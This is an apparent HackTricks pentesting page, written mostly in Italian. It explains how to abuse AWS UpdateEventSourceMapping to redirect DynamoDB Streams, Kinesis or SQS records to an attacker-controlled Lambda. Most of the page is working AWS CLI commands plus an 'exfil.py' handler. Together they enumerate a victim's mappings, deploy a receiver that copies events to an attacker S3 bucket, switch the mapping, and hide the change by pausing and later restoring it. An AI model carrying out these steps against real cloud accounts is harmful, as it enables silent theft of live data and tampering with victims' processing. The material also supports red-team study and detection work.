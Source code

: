 # AWS - Hijack Event Source Mapping to Redirect Stream/SQS/Kinesis to Attacker Lambda

{{#include ../../../../banners/hacktricks-training.md}}

Abusa di `UpdateEventSourceMapping` per cambiare la funzione Lambda target di un Event Source Mapping (ESM) esistente in modo che i record provenienti da DynamoDB Streams, Kinesis, o SQS vengano consegnati a una funzione controllata dall'attaccante. Questo devia silenziosamente dati live senza toccare i producer o il codice della funzione originale.

## Impact
- Deviare e leggere record live da stream/queue esistenti senza modificare le app producer o il codice della vittima.
- Possibile esfiltrazione di dati o manomissione della logica processando il traffico della vittima in una funzione rogue.

## Required permissions
- `lambda:ListEventSourceMappings`
- `lambda:GetEventSourceMapping`
- `lambda:UpdateEventSourceMapping`
- Ability to deploy or reference an attacker-controlled Lambda (`lambda:CreateFunction` or permission to use an existing one).

## Steps

1) Enumerate gli Event Source Mapping per la funzione della vittima
```
TARGET_FN=<victim-function-name>
aws lambda list-event-source-mappings --function-name $TARGET_FN \
--query 'EventSourceMappings[].{UUID:UUID,State:State,EventSourceArn:EventSourceArn}'
export MAP_UUID=$(aws lambda list-event-source-mappings --function-name $TARGET_FN \
--query 'EventSourceMappings[0].UUID' --output text)
export EVENT_SOURCE_ARN=$(aws lambda list-event-source-mappings --function-name $TARGET_FN \
--query 'EventSourceMappings[0].EventSourceArn' --output text)
```
2) Preparare un receiver Lambda attacker-controlled (stessa regione; idealmente VPC/runtime simili)
```
cat > exfil.py <<'PY'
import json, boto3, os, time

def lambda_handler(event, context):
print(json.dumps(event)[:3000])
b = os.environ.get('EXFIL_S3')
if b:
k = f"evt-{int(time.time())}.json"
boto3.client('s3').put_object(Bucket=b, Key=k, Body=json.dumps(event))
return {'ok': True}
PY
zip exfil.zip exfil.py
ATTACKER_LAMBDA_ROLE_ARN=<role-with-logs-(and optional S3)-permissions>
export ATTACKER_FN_ARN=$(aws lambda create-function \
--function-name ht-esm-exfil \
--runtime python3.11 --role $ATTACKER_LAMBDA_ROLE_ARN \
--handler exfil.lambda_handler --zip-file fileb://exfil.zip \
--query FunctionArn --output text)
```
3) Reindirizzare il mapping alla attacker function
```
aws lambda update-event-source-mapping --uuid $MAP_UUID --function-name $ATTACKER_FN_ARN
```
4) Genera un evento sulla sorgente in modo che il mapping si attivi (esempio: SQS)
```
SOURCE_SQS_URL=<queue-url>
aws sqs send-message --queue-url $SOURCE_SQS_URL --message-body '{"x":1}'
```
5) Verifica che la funzione attacker riceva il batch
```
aws logs filter-log-events --log-group-name /aws/lambda/ht-esm-exfil --limit 5
```
6) Stealth opzionale
```
# Pause mapping while siphoning events
aws lambda update-event-source-mapping --uuid $MAP_UUID --enabled false

# Restore original target later
aws lambda update-event-source-mapping --uuid $MAP_UUID --function-name $TARGET_FN --enabled true
```
Note:
- Per gli SQS ESMs, il ruolo di esecuzione della Lambda che elabora la coda necessita di `sqs:ReceiveMessage`, `sqs:DeleteMessage` e `sqs:GetQueueAttributes` (policy gestita: `AWSLambdaSQSQueueExecutionRole`).
- L'ESM UUID rimane lo stesso; viene cambiato solo il suo `FunctionArn`, quindi i producers e gli source ARNs restano invariati.

{{#include ../../../../banners/hacktricks-training.md}}
